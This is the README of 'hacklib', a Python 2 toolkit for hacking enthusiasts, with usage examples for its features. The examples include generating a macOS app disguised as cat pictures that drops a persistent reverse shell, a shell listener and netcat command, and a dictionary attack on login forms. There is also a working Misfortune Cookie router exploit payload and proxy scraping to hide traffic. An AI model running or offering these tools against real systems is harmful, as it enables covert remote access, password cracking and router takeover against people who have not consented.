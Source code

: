# hacklib
![MIT License](https://img.shields.io/github/license/mashape/apistatus.svg)
[![Python 2.6|2.7](https://img.shields.io/badge/python-2.6|2.7-yellow.svg)](https://www.python.org/)
##### Toolkit for hacking enthusiasts using Python.
hacklib is a Python module for hacking enthusiasts interested in network security. It is currently in active development.

-
#### Installation
To get hacklib, simply run in command line:
```console
pip install hacklib
```
hacklib also has a user interface. To use it, you can do one of the following:

Download hacklib.py and run in console:
```console
python hacklib.py
----------------------------------------------
Hey. What can I do you for?


Enter the number corresponding to your choice.

1) Connect to a proxy
2) Target an IP or URL
3) Lan Scan
4) Exit

```
Or if you got it using pip:

```python
import hacklib
hacklib.userInterface()
```
-
#### Dependencies
Not all classes have external dependencies, but just in case you can do the following:
```python
hacklib.installDependencies()
```
-
#### Usage Examples
Reverse shell backdooring (Currently only for Macs):
```python
import hacklib

bd = hacklib.Backdoor()
# Generates an app that drops a persistent reverse shell into the system.
bd.create('127.0.0.1', 9090, 'OSX', 'Funny_Cat_Pictures')
# Takes the IP and port of the command server, the OS of the target, and the name of the .app
```
-

Shell listener (Use in conjunction with the backdoor):
```python
import hacklib
# Create instance of Server with the listening port
>>> s = hacklib.Server(9090)
>>> s.listen()
New connection ('127.0.0.1', 51101)
bash: no job control in this shell
bash-3.2$ whoami
leon
bash-3.2$ 
# Sweet!
```
In addition, you can also listen with netcat:
```
nc -l 9090
```
-
Universal login client for almost all HTTP/HTTPS form-based logins and HTTP Basic Authentication logins:

```python
import hacklib

ac = hacklib.AuthClient()
# Logging into a gmail account
htmldata = ac.login('https://gmail.com', 'email', 'password')

# Check for a string in the resulting page
if 'Inbox' in htmldata: print 'Login Success.'
else: print 'Login Failed.'

# For logins using HTTP Basic Auth:
try: 
    htmldata = ac.login('http://somewebsite.com', 'admin', 'password')
except: pass #login failed
```
Simple dictionary attack using AuthClient:
```python
import hacklib

ac = hacklib.AuthClient()
# Get the top 100 most common passwords
passwords = hacklib.topPasswords(100)

for p in passwords:
    htmldata = ac.login('http://yourwebsite.com/login', 'admin', p)
    if htmldata and 'welcome' in htmldata.lower():
        print 'Password is', p
        break
```
-
Port Scanning:
```python
from hacklib import *

ps = PortScanner()
ps.scan(getIP('yourwebsite.com'))
# By default scans the first 1024 ports. Use ps.scan(IP, port_range=(n1, n2), timeout=i) to change default

# After a scan, open ports are saved within ps for reference
if ps.portOpen(80):
    # Establish a TCP stream and sends a message
    send(getIP('yourwebsite.com'), 80, message='GET HTTP/1.1 \r\n')
```

Misfortune Cookie Exploit (CVE-2014-9222) using PortScanner:
```python
>>> import hacklib

# Discovery
>>> ps = hacklib.PortScanner()
>>> ps.scan('192.168.1.1', (80, 81))
Port 80:
HTTP/1.1 404 Not Found
Content-Type: text/html
Transfer-Encoding: chunked
Server: RomPager/4.07 UPnP/1.0
EXT:
# The banner for port 80 shows us that the server uses RomPager 4.07. This version is exploitable.

# Exploitation
>>> payload = '''GET /HTTP/1.1
Host: 192.168.1.1
User-Agent: googlebot
Accept: text/html, application/xhtml+xml, application/xml; q=09, */*; q=0.8
Accept-Language: en-US, en; q=0.5
Accept-Encoding: gzip, deflate
Cookie: C107351277=BBBBBBBBBBBBBBBBBBBB\x00''' + '\r\n\r\n'
>>> hacklib.send('192.168.1.1', 80, payload)
# The cookie replaced the firmware's memory allocation for web authentication with a null bye.
# The router's admin page is now fully accessible from any web browser.
```
-
FTP authentication:
```python
import hacklib
ftp = hacklib.FTPAuth('127.0.0.1', 21)
try:
    ftp.login('username', 'password')
except:
    print 'Login failed.'
```
-
Socks4/5 proxy scraping and tunneling
```python
>>> import hacklib
>>> import urllib2
>>> proxylist = hacklib.getProxies() # scrape recently added socks proxies from the internet
>>> proxy = hacklib.Proxy()
>>> proxy.connect(proxylist) # automatically find and connect to a working proxy in proxylist
>>> proxy.IP
u'41.203.214.58'
>>> proxy.port
65000
>>> proxy.country
u'KE'
# All Python network activity across all modules are routed through the proxy:
>>> urllib2.urlopen('http://icanhazip.com/').read() 
'41.203.214.58\n'
# Notes: Only network activity via Python are masked by the proxy.
# Network activity on other programs such as your webbrowser remain unmasked.
# To filter proxies by country and type:
# proxylist = hacklib.getProxies(country_filter = ('RU', 'CA', 'SE'), proxy_type='Socks5')
```
-
Word Mangling:

```python
from hacklib import *

word = Mangle("Test", 0, 10, 1990, 2016)

word.Leet()
word.Numbers()
word.Years()
```
Output:

```
T3$t
Test0
0Test
...snip...
Test10
10Test
Test1990
1990Test
...snip...
Test2016
2016Test
```
-

Pattern Create:

```python
from hacklib import *

Pattern = PatternCreate(100)

Pattern.generate()
```
Output:

```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```
-

Pattern Offset:

```python
from hacklib import *

Offset = PatternOffset("6Ab7")

Offset.find()
```
Output:

```python
[+] Offset: 50
```
